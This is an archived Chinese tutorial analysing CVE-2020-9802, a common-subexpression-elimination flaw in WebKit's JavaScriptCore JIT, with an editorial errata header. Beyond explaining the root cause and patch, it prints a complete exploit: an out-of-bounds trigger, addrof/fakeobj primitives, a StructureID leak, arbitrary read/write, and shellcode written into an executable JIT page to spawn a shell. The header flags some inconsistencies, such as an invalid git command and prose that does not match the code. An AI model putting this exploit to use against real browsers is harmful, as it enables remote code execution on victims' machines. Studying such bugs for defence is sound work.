








# CVE-2020-9802-WebKit JIT 优化漏洞分析 - 先知社区

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：JavaScriptCore JIT
- 文献类型：JSC漏洞分析与利用教程
- 版本、权限及部署边界：固定WebKit提交17218d1485b0f5d98d2aad116d4fdb2bad6aee2d，debug jsc且关闭并发JIT；平台架构需补明确
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 版本字段误抽取MAX_ITERATIONS代码；环境命令git < ./patch.diff无有效git子命令，patch.diff正文缺失
2. CSE忽略ArithMode的根因及修复解释有价值，但边界消除不应简化为训练后预测下次必在界内，需区分静态范围推理
3. 段落声称通过wasm RWX完成利用，完整代码实际走普通JS JIT函数地址链，叙述与样例不一致
4. 结构头常量在分步片段与完整代码不同，须注明debug/构建依赖；相邻数组布局、固定偏移和可写执行页不能推广至所有Safari环境
5. Linux jsc演示不能证明浏览器沙箱逃逸；补受影响/修复发布版本与补丁来源，保留Project Zero/WebKit原始链接

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文标注出处：<https://xz.aliyun.com/t/8913>
- 原文参考链接（未重新核验）：<http://ksria.com/simpread/>
- 原文参考链接（未重新核验）：<https://googleprojectzero.blogspot.com/2020/09/jitsploitation-one.html](https://googleprojectzero.blogspot.com/2020/09/jitsploitation-one.html>
- 原文参考链接（未重新核验）：<https://googleprojectzero.blogspot.com/2020/09/jitsploitation-two.html](https://googleprojectzero.blogspot.com/2020/09/jitsploitation-two.html>
- 原文参考链接（未重新核验）：<https://www.anquanke.com/post/id/223494](https://www.anquanke.com/post/id/223494>
- 原文参考链接（未重新核验）：<https://bugs.chromium.org/p/project-zero/issues/detail?id=2020#c4](https://bugs.chromium.org/p/project-zero/issues/detail?id=2020#c4>

### 归档技术正文

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [xz.aliyun.com](https://xz.aliyun.com/t/8913)

环境搭建
----

```
git checkout 17218d1485b0f5d98d2aad116d4fdb2bad6aee2d
git < ./patch.diff
Tools/Scripts/build-webkit --jsc-only --debug


```

启动运行：

```
./jsc --useConcurrentJIT=false ./exp.js

```

### 基础知识

jsc 优化的四个阶段：

[](../../.resource/remote/b678428b78ab80cc8b6ac37427debccebbcdbf98f0b2814192f01d8a3836d285.png)

在 jsc 中会对以下的 JS 代码进行优化：

```
let c = a + b;
let d = a + b;


```

优化成：

```
let c = a + b;
let d = c;


```

这种优化称为 Common Subexpression Elimination (CSE)，公共子表达式消除，但是像下面这种：

```
let c = o.a;
f();
let d = o.a;


```

就无法进行优化消除，直接使 d=c，因为在调用 f() 函数的过程中可能会改变 o.a 的值。

在 JSC 中，对某项操作是否进行 CSE 是在 DFGClobberize 中实现的。

漏洞分析
----

漏洞点在于：

```
case ArithNegate:
        if (node->child1().useKind() == Int32Use || ...)
            def(PureValue(node));          // <- only the input matters, not the ArithMode


```

ArithNegate 操作中没有使用 ArithMode，这可能导致 CSE 可以用 unchecked 的 ArithNegate 替换 checked 的 ArithNegate，对于 ArithNegate 一个 32 位整数求反的情况下，整数溢出只能在一种情况下发生，即 32 位有符号整数的最小值 INT_MIN：0x80000000（-2147483648），取反后为 2147483648，然而 32 位有符号整数的最大值为 0x7fffffff，不能表示 2147483648，导致溢出。溢出后需要做的就是绕过 checked 的溢出检查，例如将操作的 checked 模式转成 unchecked 模式。

最终要构造以下效果：

```
v = ArithNeg(unchecked) n
i = ArithNeg(checked) n


```

然后通过 CSE 优化转化成：

```
v = ArithNeg(unchecked) n
i = v


```

（1）所以首先我们要得到一个`v = ArithNeg(unchecked) n`

ArithNegate 用于对整数取反，然而 JavaScript 中很多数据为浮点数类型，所以需要先将其转成整数：

```
n = n|0;   // n will be an integer value now


```

此时，n 为一个 32 位的整数，之后要构造一个 unchecked ArithNegate 操作

```
n = n|0;         // 【1】
let v = (-n)|0;  // 【2】


```

【2】在 DFGFixupPhase 处理流程中，对 n 取反会被转化成 unchecked ArithNegate 操作。在对取反的值进行 or 操作时，编译器会消除溢出的检查，因为即使是对 INT_MIN：0x80000000 （-2147483648）取反后进行 or 操作，得到的值也是 0x80000000，v 的值不会溢出，所以没必要进行溢出检查。

```
js> -2147483648 | 0
-2147483648
js> 2147483648 | 0
-2147483648


```

（2）接下来要构造`i = ArithNeg(checked) n`

通过 ArithAbs 操作实现，只有当传入的 n 为负数时，才会将 ArithAbs 转化成 ArithNegate 操作进行检查，因为正数的绝对值是它本身，不会造成溢出，也不用取反。因此完成以下的构造：

```
n = n|0;
if (n < 0) {
    // Compiler knows that n will be a negative integer here
    let v = (-n)|0;
    let i = Math.abs(n);
}


```

Math.abs 会调用到 ArithAbs 操作，之后 IntegerRangeOptimization 将 ArithAbs 转换为一个 checked 的 ArithNegate（这里要进行检查，是因为 INT_MIN：-2147483648 取绝对值后变成 2147483648 会造成溢出）。此时 v 和 i 的值被认为是相同的，都是 ArithNeg n，只不过模式不同，但 CSE 优化会无视模式不同，直接当成同一个值处理。

（3）准备条件已经完成，最后通过循环调用，触发 CSE 优化，转化成：

```
v = ArithNeg(unchecked) n
i = v


```

综上所述，poc 如下：

```
function hax(arr, n) {
  n = n|0;
  if (n < 0) {
    let v = (-n)|0;
    let idx = Math.abs(n);
    if (idx < arr.length) {
        arr[idx];
    }
  }
}


```

触发漏洞前，IntegerRangeOptimization 在进入`idx < arr.length` 时将 idx 标志为恒大于等于 0 且小于数组长度，此时传入的 n 为负数，idx=-n，通过循环训练，JIT 会认为 idx 极大可能落在数组内，预测下一次访问也在数组内，从而消除数组的越界访问检查。

而触发漏洞，进行 CSE 优化时，传入的 n 为 - 2147483648，idx=v=-2147483648，依然为负数，小于数组长度，进入判断，但此时已经消除了数组的越界检查。上述最终效果是可以越界访问 arr[-2147483648]，造成 crash。

后面要做的就是将 idx 从 - 2147483648 转化成任意数，越界读写后面对象的内容。修改 poc 如下：

```
function Foo(arr, n)
{
    n = n | 0;
    if(n < 0) {
        let v = (-n) | 0;
        let idx = Math.abs(n);
        if(idx < arr.length) {
            if(idx & 0x80000000) { // 输入值为负时才能进行减法操作
                idx += -0x7ffffffd;  // idx = 3;
            }
            if(idx > 0) { // 由于前面的减法，IntegerRangeOptimization无法确定idx是否恒大于等于0，所以要加判断
                return arr[idx] = 1.04380972981885e-310;  // i2f(0x133700001337);
            }
        }
    }
}


```

通过`idx-0x7ffffffd` 使 idx=3，因为此时 JIT 认为 idx 恒为正数，减去 0x7ffffffd 并不会造成溢出，所以消除了 ArithAdd 的检查，所以从进入`idx < arr.length` 条件判断到越界写操作，一路的检查都被消除了，造成了 OOB 漏洞。

漏洞利用
----

### 构造 addrof 和 fakeobj 原语

根据 poc 可以越界改写后面浮点数数组的长度，构造一个可以越界读写的数组：

[](../../.resource/remote/f92c550999ecb1069afe0f5b6fe02d11a51aa36e34a6c7c6c362afc9aa8c2f2b.png)

布置三个数组，地址如下：

```
[+] arr: 0x00007fe4f209e4e8
[+] oobAddr: 0x00007fe4f209ed68
[+] objAddr: 0x00007fe4f209ede8

```

调试观察它们 butterfly 的布局：

[](../../.resource/remote/ad5d749f82665bbc6e6c149ba47cdcdcab8c5f30812d87d97814d64677332efb.png)

可以看到通过越界读写 arr[3]，可以将 oobArr 数组的 length 修改成 0x1337，之后通过 oobArr 可以再一次越界读写，通过修改 oobArr[4]，可以直接修改 objArr[0] 的内容，由于 oobArr 为浮点数数组，objArr 为对象数组，通过类型转化可以完成 addrof 和 fakeobj 原语：

```
let noCoW = 13.37;
let arr = [noCoW, 2.2, 3.3];
let oobArr = [noCoW, 2.2, 3.3];
let objArr = [{}, {}, {}];

function AddrOf(obj)
{
    objArr[0] = obj;
    return f2i(oobArr[4]);
}

function FakeObj(addr)
{
    addr = i2f(addr);
    oobArr[4] = addr;
    return objArr[0];
}


```

后面的操作就比较常规了：

（1）绕过 StructureID 随机化

（2）构造任意地址读写

（3）查找 wasm rwx 区域，写入 shellcode，完成利用

### 绕过 StructureID 随机化

当加载 JSArray 的元素时，解释器中有一个代码路径，它永远不会访问 StructureID:

```
static ALWAYS_INLINE JSValue getByVal(VM& vm, JSValue baseValue, JSValue subscript)
{
    ...;
    if (subscript.isUInt32()) {
        uint32_t i = subscript.asUInt32();
        if (baseValue.isObject()) {
            JSObject* object = asObject(baseValue);
            if (object->canGetIndexQuickly(i))
                return object->getIndexQuickly(i); // 【1】


```

getIndexQuickly 直接从 butterfly 加载元素，而 canGetIndexQuickly 只查看 JSCell 头部中的索引类型和 butterfly 中的 length：

```
bool canGetIndexQuickly(unsigned i) const {
    const Butterfly* butterfly = this->butterfly();
    switch (indexingType()) {
    ...;
    case ALL_CONTIGUOUS_INDEXING_TYPES:
        return i < butterfly->vectorLength() && butterfly->contiguous().at(this, i);
}


```

我们可以伪造一个 JSArray 对象，填充无效的 StructureID 等头部字段（因为 getByVal 路径上不验证，所以不会报错），然后将 butterfly 填充为要泄露的目标对象地址，就可以将目标对象的结构当成数据输出。

[](../../.resource/remote/004144a8565511de5919db56b50771a5018a81e2930a29264ad412e534624102.png)

泄露 StructureID 的代码如下：

```
// leak entropy by getByVal
function LeakStructureID(obj)
{
    let container = {
        cellHeader: i2obj(0x0108230700000000), // 伪造的JSArray头部，包括StructureID等字段
        butterfly: obj
    };

    let fakeObjAddr = AddrOf(container) + 0x10;
    let fakeObj = FakeObj(fakeObjAddr);
    f64[0] = fakeObj[0];// 访问元素会调用getByVal

    //此时fakeObj[0]为Legitimate JSArray的JSCell，fakeObj[1]为Legitimate JSArray的butterfly
    // repair the fakeObj's jscell
    let structureID = u32[0];
    u32[1] = 0x01082307 - 0x20000;
    container.cellHeader = f64[0];

    return structureID;
}


```

内存布局如下：

```
// container 对象：
Object: 0x7fe0cc78c000 with butterfly (nil) (Structure 0x7fe0cc7bfde0:[0xd0bd, Object, {cellHeader:0, butterfly:1}, NonArray, Proto:0x7fe10cbf6de8, Leaf]), StructureID: 53437

pwndbg> x/4gx 0x7fe0cc78c000
0x7fe0cc78c000: 0x010018000000d0bd  0x0000000000000000
0x7fe0cc78c010: 0x0108230700000000  0x00007fe10cb7cae8 // <---伪造的Butterfly，覆盖成目标对象地址
              // 伪造的JSCell
pwndbg> x/gx 0x00007fe10cb7cae8
0x7fe10cb7cae8: 0x010823070000f1aa // <---- StructureID被当作数据输出


```

### 构造任意地址读写

泄露 StructureID 后，我们可以仿造泄露 StructureID 方法一那样构造一个 JSArray，只不过现在 StructureID 填充的是有效的，可以根据 Butterfly 进行读写。

（1）首先伪造一个 driver object，类型为对象类型数组，将 driver object 的 butterfly 指向 victim object，此时访问 driver[1] 就可以访问 victim object 的 butterfly，之后申请一个 ArrayWithDouble（浮点数类型）的数组 unboxed，通过 driver[1] = unboxed 将 victim object 的 butterfly 填充为 unboxed 对象地址，同理此时访问 victim[1] 就可以访问 unboxed object 的 butterfly。

[](../../.resource/remote/f8e6e903f4de2f0150cc6f680becfd593646d885b66176eea876528f8fe8988c.png)

这一步我们可以泄露 unboxed object 的 butterfly 内容。代码如下：

```
var victim = [noCoW, 14.47, 15.57];
victim['prop'] = 13.37;
victim['prop_1'] = 13.37;

u32[0] = structureID;
u32[1] = 0x01082309-0x20000;
var container = {
    cellHeader: f64[0],
    butterfly: victim   
};
// build fake driver
var containerAddr = AddrOf(container);
var fakeArrAddr = containerAddr + 0x10;
var driver = FakeObj(fakeArrAddr);

// ArrayWithDouble
var unboxed = [noCoW, 13.37, 13.37];

// leak unboxed butterfly's addr
driver[1] = unboxed;
var sharedButterfly = victim[1];
print("[+] shared butterfly addr: " + hex(f2i(sharedButterfly)));


```

（2）申请一个 ArrayWithContiguous（对象类型）的数组 boxed，和第一步一样，将 driver[1] 覆盖成 boxed object 地址就可以通过 victim[1] 对 boxed object 的 butterfly 进行操作。将第一步泄露的 unboxed object butterfly 内容填充到 boxed object 的 butterfly，这样两个对象操作的就是同一个 butterfly，可以方便构造新的 addrof 和 fakeobj 原语。

[](../../.resource/remote/346cb698bf43be07b8b73b1496f9fffaddf12e7646832401a2c1b9e776d15c91.png)

代码如下：

```
var boxed = [{}];
driver[1] = boxed;
victim[1] = sharedButterfly;

function NewAddrOf(obj) {
    boxed[0] = obj;
    return f2i(unboxed[0]);
}

function NewFakeObj(addr) {
    unboxed[0] = i2f(addr);
    return boxed[0];            
}


```

（3）将 driver object 的类型修改成浮点型数组类型，将 victim object 的 butterfly 修改成 target_addr+0x10，因为 butterfly 是指向 length 和 elem0 中间，而属性 1prop 位于 butterfly-0x10 的位置，访问 victim.prop 相当于访问 butterfly-0x10 =（target_addr+0x10）-0x10=target_addr。

[](../../.resource/remote/763190bfcb721bf38973766c5582630f0405c0f7e7f121b63285e2bb2009b477.png)

所以通过读写 victim.prop 就可以实现任意地址的读写，代码如下：

```
function Read64(addr) {
    driver[1] = i2f(addr+0x10);
    return NewAddrOf(victim.prop);
}

function Write64(addr, val) {
    driver[1] = i2f(addr+0x10);
    victim.prop = i2f(val);
}


```

### 任意代码执行

和 v8 的利用相似，通过任意读查找 wasm_function 中 rwx 区域，通过任意写将 shellcode 写入该区域即可执行任意代码。

完成 exp 代码如下（适配 debug 版本）：

```
const MAX_ITERATIONS = 0xc0000;
const buf = new ArrayBuffer(8);
const f64 = new Float64Array(buf);
const u32 = new Uint32Array(buf);

function f2i(val)
{ 
    f64[0] = val;
    return u32[1] * 0x100000000 + u32[0];
}

function i2f(val)
{
    let tmp = [];
    tmp[0] = parseInt(val % 0x100000000);
    tmp[1] = parseInt((val - tmp[0]) / 0x100000000);
    u32.set(tmp);
    return f64[0];
}

function i2obj(val)
{
    return i2f(val-0x02000000000000);
}

function hex(i)
{
    return "0x"+i.toString(16).padStart(16, "0");
}

var shellcode = [72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72, 184, 46, 121, 98,
    96, 109, 98, 1, 1, 72, 49, 4, 36, 72, 184, 47, 117, 115, 114, 47, 98,
    105, 110, 80, 72, 137, 231, 104, 59, 49, 1, 1, 129, 52, 36, 1, 1, 1, 1,
    72, 184, 68, 73, 83, 80, 76, 65, 89, 61, 80, 49, 210, 82, 106, 8, 90,
    72, 1, 226, 82, 72, 137, 226, 72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72,
    184, 121, 98, 96, 109, 98, 1, 1, 1, 72, 49, 4, 36, 49, 246, 86, 106, 8,
    94, 72, 1, 230, 86, 72, 137, 230, 106, 59, 88, 15, 5];

function MakeJitCompiledFunction() {
    function target(num) {
        for (var i = 2; i < num; i++) {
            if (num % i === 0) {
                return false;
            }
        }
        return true;
    }
    for (var i = 0; i < 1000; i++) {
        target(i);
    }
    for (var i = 0; i < 1000; i++) {
        target(i);
    }
    for (var i = 0; i < 1000; i++) {
        target(i);
    }
    return target;
}

var jitFunc = MakeJitCompiledFunction();

function Foo(arr, n)
{
    n = n | 0;
    if(n<0) {
        let v = (-n) | 0;
        let idx = Math.abs(n);
        if(idx < arr.length) {
            if(idx & 0x80000000) {
                idx += -0x7ffffffd;  // idx = 3;
            }
            if(idx>0) {
                return arr[idx] = 1.04380972981885e-310;  // i2f(0x133700001337);
            }
        }
    }
}

let noCoW = 13.37;
let arr = [noCoW, 2.2, 3.3];
let oobArr = [noCoW, 2.2, 3.3];
let objArr = [{}, {}, {}];

for(let i=0; i<MAX_ITERATIONS; i++) {
    let tmp = -2;
    Foo(arr, tmp);
}

Foo(arr, -2147483648);

print("[+] now oob arr's length: " + hex(oobArr.length));

function AddrOf(obj)
{
    objArr[0] = obj;
    return f2i(oobArr[4]);
}

function FakeObj(addr)
{
    addr = i2f(addr);
    oobArr[4] = addr;
    return objArr[0];
}

// leak entropy by getByVal
function LeakStructureID(obj)
{
    let container = {
        cellHeader: i2obj(0x0108200700000000),
        butterfly: obj
    };

    let fakeObjAddr = AddrOf(container) + 0x10;
    let fakeObj = FakeObj(fakeObjAddr);
    f64[0] = fakeObj[0];

    // repair the fakeObj's jscell
    let structureID = u32[0];
    u32[1] = 0x01082307 - 0x20000;
    container.cellHeader = f64[0];

    return structureID;
}

var arrLeak = new Array(noCoW, 2.2, 3.3, 4.4, 5.5, 6.6, 7.7, 8.8);
let structureID = LeakStructureID(arrLeak);
print("[+] leak structureID: "+hex(structureID));

pad = [{}, {}, {}];
var victim = [noCoW, 14.47, 15.57];
victim['prop'] = 13.37;
victim['prop_1'] = 13.37;

u32[0] = structureID;
u32[1] = 0x01082309-0x20000;

var container = {
    cellHeader: f64[0],
    butterfly: victim   
};

// build fake driver
var containerAddr = AddrOf(container);
var fakeArrAddr = containerAddr + 0x10;
var driver = FakeObj(fakeArrAddr);

// ArrayWithDouble
var unboxed = [noCoW, 13.37, 13.37];
// ArrayWithContiguous
var boxed = [{}];

// leak unboxed butterfly's addr
driver[1] = unboxed;
var sharedButterfly = victim[1];
print("[+] shared butterfly addr: " + hex(f2i(sharedButterfly)));

driver[1] = boxed;
victim[1] = sharedButterfly;

// set driver's cell header to double array
u32[0] = structureID;
u32[1] = 0x01082307-0x20000;
container.cellHeader = f64[0];

function NewAddrOf(obj) {
    boxed[0] = obj;
    return f2i(unboxed[0]);
}

function NewFakeObj(addr) {
    unboxed[0] = i2f(addr);
    return boxed[0];            
}

function Read64(addr) {
    driver[1] = i2f(addr+0x10);
    return NewAddrOf(victim.prop);
}

function Write64(addr, val) {
    driver[1] = i2f(addr+0x10);
    victim.prop = i2f(val);
}

function ByteToDwordArray(payload)
{
    let sc = []
    let tmp = 0;
    let len = Math.ceil(payload.length/6)
    for (let i = 0; i < len; i += 1) {
        tmp = 0;
        pow = 1;
        for(let j=0; j<6; j++){
            let c = payload[i*6+j]
            if(c === undefined) {
                c = 0;
            }
            pow = j==0 ? 1 : 256 * pow;
            tmp += c * pow;
        }
        tmp += 0xc000000000000;
        sc.push(tmp);
    }
    return sc;
}

function ArbitraryWrite(addr, payload) 
{
    let sc = ByteToDwordArray(payload);
    for(let i=0; i<sc.length; i++) {
        Write64(addr+i*6, sc[i]);
    }
}

var jitFuncAddr = NewAddrOf(jitFunc);
print("[+] jit function addr: "+hex(jitFuncAddr));

var executableBaseAddr = Read64(jitFuncAddr + 0x18);
var jitCodeAddr = Read64(executableBaseAddr + 0x8);
print("[+] jit code addr: "+hex(jitCodeAddr));

var rwxAddr = Read64(jitCodeAddr + 0x20);
print("[+] rwx addr: "+hex(rwxAddr));

ArbitraryWrite(rwxAddr, shellcode);
print("[+] trigger shellcode");

jitFunc();


```

执行效果：

[](../../.resource/remote/f9677931b72e29f1d5553db3405098d65179bcd41775a8dab9ada686ca7828dc.png)

补丁
--

```
-            def(PureValue(node));
+            def(PureValue(node, node->arithMode()));


```

添加 arithMode，使 CSE 重新检查 ArithNegate 操作，判断是 unchecked 还是 checked 模式，并进入不同的处理，而不能直接互相替换。

参考链接
----

[https://googleprojectzero.blogspot.com/2020/09/jitsploitation-one.html](https://googleprojectzero.blogspot.com/2020/09/jitsploitation-one.html)

[https://googleprojectzero.blogspot.com/2020/09/jitsploitation-two.html](https://googleprojectzero.blogspot.com/2020/09/jitsploitation-two.html)

[https://www.anquanke.com/post/id/223494](https://www.anquanke.com/post/id/223494)

[https://bugs.chromium.org/p/project-zero/issues/detail?id=2020#c4](https://bugs.chromium.org/p/project-zero/issues/detail?id=2020#c4)

[https://bugs.webkit.org/show_bug.cgi?id=209093](https://bugs.webkit.org/show_bug.cgi?id=209093)

[https://github.com/ray-cp/browser_pwn/tree/master/jsc_pwn/cve-2020-9802](https://github.com/ray-cp/browser_pwn/tree/master/jsc_pwn/cve-2020-9802)

[https://github.com/De4dCr0w/Browser-pwn/tree/master/Vulnerability%20analyze/CVE-2020-9802-WebKit%20JIT 优化漏洞](https://github.com/De4dCr0w/Browser-pwn/tree/master/Vulnerability%20analyze/CVE-2020-9802-WebKit%20JIT%E4%BC%98%E5%8C%96%E6%BC%8F%E6%B4%9E)

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
